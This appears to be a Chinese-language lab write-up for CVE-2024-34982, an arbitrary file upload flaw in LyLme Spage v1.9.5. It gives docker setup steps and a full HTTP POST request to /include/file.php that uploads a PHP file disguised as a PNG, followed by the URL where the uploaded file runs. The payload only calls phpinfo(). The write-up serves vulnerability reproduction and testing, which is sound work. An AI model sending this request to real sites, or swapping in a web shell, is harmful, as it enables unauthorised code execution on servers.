




# CVE-2024-34982 LyLme Spage六零导航页 文件上传

六零导航页 (LyLme Spage) 致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义搜索引擎，沉淀最具价值链接，全站无商业推广，简约而不简单。lylme_spage v1.9.5 组件 /include/file.php 中存在任意文件上传漏洞，允许攻击者通过上传精心设计的文件来执行任意代码。

**影响版本**：lylme_spage v1.9.5

**项目地址**：https://gitee.com/LyLme/lylme_spage/

**参考链接**：

- https://github.com/n2ryx/CVE/blob/main/Lylme_pagev1.9.5.md
- https://blog.csdn.net/shelter1234567/article/details/141305616


## 漏洞环境

执行如下命令启动一个lylme_spage_v1.9.5-web服务器：

```
docker compose up 
```

环境启动后，访问`http://your-ip:80`将面跳转到lylme_spage的安装向导页面

输入数据库库名称lylme_spage，点击安装



等待安装完成




## 漏洞复现

发起如下的请求，上传php文件

```
POST /include/file.php HTTP/1.1
Host: 192.168.160.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary89Tc5ksp85eVIfaA
Content-Length: 193

------WebKitFormBoundary89Tc5ksp85eVIfaA
Content-Disposition: form-data; name="file";filename="mm.php"
Content-Type: image/png

<?=phpinfo();?>
------WebKitFormBoundary89Tc5ksp85eVIfaA--
```



访问php文件`http://192.168.160.128/files/upload/img_66c0186079bee.php`

